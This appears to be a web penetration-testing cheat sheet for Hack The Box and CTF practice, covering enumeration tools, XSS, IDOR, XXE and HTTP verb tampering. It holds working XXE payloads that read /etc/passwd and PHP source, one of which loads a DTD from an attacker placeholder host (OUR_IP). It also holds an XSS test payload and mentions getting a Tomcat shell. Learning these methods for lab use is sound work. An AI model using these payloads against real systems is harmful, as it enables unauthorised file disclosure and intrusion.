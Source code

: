 # Web 

## Scans

### nikto

![Pasted image 20220805160735](https://github.com/dbissell6/Shadow_Stone/assets/50979196/691cc2e9-20a5-4692-aa8f-5ff1b032b0f4)

### whatweb

![Pasted image 20220805160914](https://github.com/dbissell6/Shadow_Stone/assets/50979196/7a494fa9-737a-4f21-9cca-f0eab21d2e4c)


## Wordpress

```
wpscan --url http://pressed.htb
```
```
wpscan --url http://pressed.htb --enumerate ap -v
```
## Web Proxies

### Burp


### Zap

## Tomcat
common attack is uploading a .war to get a shell. This can be done with default tomcat creds or finding admin creds.

## XSS

XSS (Cross-Site Scripting) is an exploit that relies on the execution of unsanitized JavaScript code on a website. This code execution allows the attacker to capture information from other users who interact with the page, including their cookies.

In the context of HTB (Hack The Box) and CTFs (Capture The Flag competitions), if you know that an admin bot is going to interact with a page, XSS may be a viable option for exploitation.

There are three variants of XSS:

    Stored/Persistent: In this variant, the malicious code is stored in the backend database and will affect any user who visits the site where the code is displayed.

    Reflected: Reflected XSS is similar to stored XSS, but the malicious code is not stored persistently. Instead, it is embedded in a URL or input field and is only triggered when the user interacts with it.

    DOM-based: DOM-based XSS exploits vulnerabilities in the Document Object Model (DOM) of a web page. The attack occurs when the client-side JavaScript code manipulates the DOM incorrectly, allowing an attacker to inject and execute malicious code.


Below is an example of code that could be used to test
```
<script>alert(window.origin)</script>
```
a pop up (below) would confirm the presence of XSS

<img width="737" alt="Screen Shot 2022-09-18 at 8 45 08 PM" src="https://github.com/dbissell6/Shadow_Stone/assets/50979196/81044e3b-f524-4f48-8b9d-9fed7a9ca1ac">

## Insecure Direct Object References(IDOR)

Identifying IDORs: Look for URL parameters or APIs with object references (e.g., ?uid=1 or ?filename=file_1.pdf). These references are often found in URL parameters, APIs, or other HTTP headers like cookies.

## XML External Entity (XXE) Injection
The first step in identifying potential XXE vulnerabilities is finding web pages that accept an XML user input. 

### Local File Disclosure example

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/bb634f91-a68b-4701-bf77-34d899d82685)

```
<!DOCTYPE email [
  <!ENTITY new_ent SYSTEM "file:///etc/passwd">
]>
```
Define a new external entity
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/a7c89b0a-6319-4dd8-9c0e-74c5dd6a0b45)

### PHP wrappers
some files may contain characters that will break the request. Can use a PHP wrapper to base64 encode

```
<!DOCTYPE email [
  <!ENTITY new_ent SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

### Error Based XXE

Create xxe.dtd file and host it
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/8ff45e34-c8a4-4b1d-a109-8702d1d9f00b)

```
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/767e5ec0-9ae1-494e-8aa8-3c00af5900c6)


### RCE with XXE
If PHP expect module is enabled(not likley)

## HTTP Verb Tampering
A web server's authentication configuration may be limited to specific HTTP methods, which would leave some HTTP methods accessible without authentication. Exploiting HTTP Verb Tampering vulnerabilities is usually a relatively straightforward process. We just need to try alternate HTTP methods to see how they are handled by the web server and the web application. 

To show what options are available
```
curl -i -X OPTIONS http://SERVER_IP:PORT/
```
Can change request methods easily in burp by right clicking

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/ade0f33a-3cf7-42d0-a7bd-5c49b4a81970)

